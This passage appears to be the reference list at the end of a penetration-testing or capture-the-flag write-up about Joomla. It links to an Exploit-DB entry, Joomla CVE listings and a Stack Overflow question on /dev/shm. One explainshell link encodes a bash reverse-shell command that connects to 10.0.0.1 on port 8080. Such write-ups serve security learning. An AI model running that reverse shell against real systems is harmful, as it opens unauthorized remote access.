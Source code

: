 # References


[^1]: https://www.exploit-db.com/exploits/46200
[^2]: https://www.cvedetails.com/vulnerability-list/vendor_id-3496/Joomla.html

[^3]: https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.0.0.1%2F8080+0%3E%261

[^4]: https://stackoverflow.com/questions/42884087/how-and-when-to-use-dev-shm-for-efficiency

